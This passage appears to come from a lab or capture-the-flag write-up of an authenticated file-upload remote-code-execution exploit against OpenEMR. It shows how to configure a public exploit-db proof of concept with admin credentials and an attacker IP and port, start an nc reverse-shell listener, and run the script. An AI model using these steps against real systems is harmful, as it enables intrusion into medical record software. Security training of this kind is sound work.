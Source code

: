 ![admin page](images/cache/15.png)

### OpenEMR Vulnerability 3: Authenticated RCE via File Upload /portal/import_template.php

Going back to the vulnerability report, there is an arbitrary file upload vulnerability that can lead to remote code execution. (Page 25, section 9.1). However, a POC has already been implemented and uploaded to [exploit-db](https://www.exploit-db.com/exploits/48515). We will use this.<br />
In order for the exploit to work, we need to set the username and password in the POC script:
<br />
```bash
...
data= {
    'new_login_session_management' : '1',
    'authProvider' : 'Default',
    'authUser' : 'openemr_admin',
    'clearPass' : 'xxxxxx',        
    'languageChoice' : '1',
    }
...
```
<br />And also the attacking (our) machine IP address and the port we want to listen to.
<br />
```bash
...
$ip = '10.10.14.23';  # CHANGE THIS
$port = 4444;       # CHANGE THIS
...
```
<br />Now we have to setup our listener before running the exploit script.
<br />
```bash
$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```
<br />Finally, run the exploit script.
<br />
```bash

python3 48515.py

```
<br />If the exploit is successful, we should able to receive a connection:
<br />